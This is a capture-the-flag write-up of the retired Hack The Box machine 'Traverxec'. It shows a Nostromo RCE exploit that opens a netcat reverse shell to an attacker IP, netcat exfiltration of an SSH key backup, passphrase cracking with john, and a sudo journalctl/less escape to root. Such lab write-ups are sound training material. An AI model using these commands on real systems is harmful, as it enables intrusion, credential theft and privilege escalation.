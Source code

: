 ```yaml
---
layout: default
---
```

## Traverxec
###### Retired April 2020
![](https://www.hackthebox.eu/storage/avatars/6ce5fcdd63f07a5ce91d0b8e4579b163.png)

Life is short. [Need to skip to root?](#root)

This was a machine with secrets everywhere. A hidden (,hidden?) directory and a tricky sizing trick with privesc to root.

The IP has been added to my ```/etc/hosts``` file as traverxec.htb. Starting with nmap, I did a quick portscan of all ports and got back hits on 22 and 80. A full scan of those ports revealed:

![](https://yaboygmoney.github.io/htb/images/traverxec/1.png)

The results show that port 80 is running Nostromo version 1.9.6. Some quick recon on the version shows that the particular version provides remote code execution (RCE) capability by exploiting a LFI vulnerability. There are several ways to exploit this vulnerability: manually is pretty easy via web requests, a [python script](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py) is easier, and [Metasploit has a module](https://www.exploit-db.com/exploits/47573) that's easiest. I opted for the python exploit.

To get a shell, I needed a listener ready:

```bash
nc -nvlp 1234
```

and to make the call using the PoC code:

```bash
python exploit.py traverxec.htb 80 "nc 10.10.14.31 1234 -e /bin/bash"
```

![](https://yaboygmoney.github.io/htb/images/traverxec/shell.png)

The shell is created and I can see that I landed on the machine as www-data.

Initial enumeration didn't show much for any binary/SUID exploitation for privesc, but looking through the Nostromo configuration revealed an .htpasswd file with a hash inside. I cracked it and revealed a password ```Nowonly4me```. It didn't work for SSH as David, and it turns out I didn't really end up needing it at all. 

![](https://yaboygmoney.github.io/htb/images/traverxec/5.png)

The password was for a basic authentication prompt and would have been needed if I did the upcoming steps through a browser. Moving on.

The Nostromo configuration file located at ```/var/nostromo/conf/nhttpd.conf``` provided the necessary information for privesc to david. In the ```#BASIC AUTHENTICATION``` section, we can see that while optional, it is configured. We have the password from the .htpasswd file already. 

![](https://yaboygmoney.github.io/htb/images/traverxec/4.png)

Looking further down the file is the ```HOMEDIRS``` configuration. Reading the [documentation for nhttpd](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd), I learned that it's possible to share home directories for users with a leading ```~``` character followed by their name, for example ```http://traverxec.htb/~david/```.

The configuration also shows that it's possible to provide a ```public_www``` directory. I didn't have permission to list directories from David's home directory, but I could go straight to ```/home/david/public_www``` directory. 

![](https://yaboygmoney.github.io/htb/images/traverxec/6.png)

I shipped the compressed file back to my local machine using a netcat file transfer:

```bash
nc -w 3 10.10.14.31 1235 < backup-ssh-identity-files.tgz # On remote machine
nc -nvlp 1235 > ssh.tgz # On local machine
```

![](https://yaboygmoney.github.io/htb/images/traverxec/7.png)

and decompressed the contents. Inside was David's private SSH key.

![](https://yaboygmoney.github.io/htb/images/traverxec/8.png)

I tried to SSH with just the key, but SSH still wanted a password, and not the password cracked from earlier. To get the password, we can to carve it out of the key file.

I ran the key through ```ssh2john``` and kicked it out to a text file that ```john``` can work with. From there, I can run the text file through ```john```.

```bash
/usr/share/john/ssh2john.py home/david/.ssh/id_rsa > ssh2johnhash.txt
john ssh2johnhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

After a few seconds the hash is cracked and I'm given the password ```hunter```.

![](https://yaboygmoney.github.io/htb/images/traverxec/9.png)

Now I can SSH using the same command as earlier, but provide the password this time and I'm in.

```bash
ssh -i home/david/.ssh/id_rsa david@traverxec.htb
```

![](https://yaboygmoney.github.io/htb/images/traverxec/10.png)

Now for root.<a name="root"></a>

In david's home directory, there's a ```bin``` directory. One of the files called ```server-stats.sh``` ends with the line ```/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat```. This is our way in. 

![](https://yaboygmoney.github.io/htb/images/traverxec/11.png)

Here's the breakdown:
1. Since David owns this script, we can assume that every line in the script is able to be executed manually outside of the script.
2. The last line is run with root permissions.
3. The ```journalctl``` binary that is run as root actually runs on top of the ```less``` binary. It's possible to drop into a shell from within ```less``` (see [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/#sudo)).

So to get a root shell, all I have to do is run

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

But there's a very creative catch. The command prompt MUST be small enough that the entire script cannot be displayed on the screen to actually force the ```less``` binary to be necessary. So the above command should be ran in a tiny command prompt window.

Now I'm in a ```less``` environment. From here just type

```bash
!/bin/bash
```

![](https://yaboygmoney.github.io/htb/images/traverxec/12.png)

and a shell is executed under the context of root.

Thanks for reading.

#### Keep trying
